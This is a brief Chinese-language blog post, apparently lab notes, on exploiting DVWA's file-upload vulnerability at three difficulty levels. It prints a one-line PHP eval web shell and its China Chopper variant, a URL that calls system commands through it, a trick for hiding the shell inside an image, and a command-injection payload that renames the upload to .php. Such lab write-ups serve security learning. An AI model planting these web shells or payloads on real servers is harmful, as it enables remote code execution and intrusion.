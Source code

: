 ```yaml
---
layout: post
title: File Upload
subtitle: File Upload
date: ‎2024‎-‎11‎-0‎3‎ ‏‎20:03
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
---
```


# 文件上传漏洞
### LOW

the.php

```php
<?php eval($_GET['bckdor'])?>
```

构造url：http://192.168.30.131/dvwa/hackable/uploads/the.php?bckdor=

```php
phpinfo();
system('ls');
```

**中国菜刀**

```php
<?php eval($_POST['bckdor'])?>
```
### MEDIUM

将the.php改为the.jpg

burpsuit抓取request，修改文件后缀
### HIGH

准备图片image.png和hack.php

```shell
#生成带有木马的图片
#image.png/b中“b”表示“二进制文件”，hack.php/a中“a"表示ASCII码文件
copy image.jpg/b+hack.php/a hack.jpg
```

利用[Command Injection]

```
127.0.0.1|mv ../../hackable/uploads/hack.jpg ../../hackable/uploads/hack.php
```

